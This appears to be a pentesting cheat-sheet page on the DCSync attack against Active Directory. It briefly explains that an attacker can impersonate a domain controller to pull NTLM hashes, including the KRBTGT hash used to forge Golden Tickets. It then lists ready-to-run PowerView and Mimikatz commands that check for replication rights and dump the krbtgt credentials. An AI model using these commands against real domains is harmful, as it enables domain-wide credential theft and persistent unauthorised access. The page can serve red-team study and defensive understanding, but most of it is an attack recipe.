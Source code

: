 # DCSync

<details>

<summary>What is the DCSync attack ?</summary>

This attack simulates the **behavior** of a **domain controller** and **asks other domain controllers to replicate information** using the **Directory Replication Service Remote Protocol** (MS-DRSR). Basically, it lets you **pretend to be a domain controller** and ask for user password data. This can be used by attackers to get any account’s NTLM hash including the KRBTGT account, which enables attackers to create **Golden Tickets.**

The only pre-requisite to worry about is that you have an account with **rights** to perform **domain replication**. This is controlled by the Replicating Changes permissions set on the domain.

</details>

## Attack

```powershell
# check privileges
Get-ObjectAcl -DistinguishedName "dc=fcorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')}

# if OK :
# lsadump::dcsync /domain:[YOUR DOMAIN ALTOUGH NOT NECESSARY] /user:[ANY USER WHOS PASSWORD DETAILS YOU WANT]
# FOR EXAMPLE:
lsadump::dcsync /domain:fcorp.local /user:krbtgt

Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
# note : the user that has dcsync priv
```

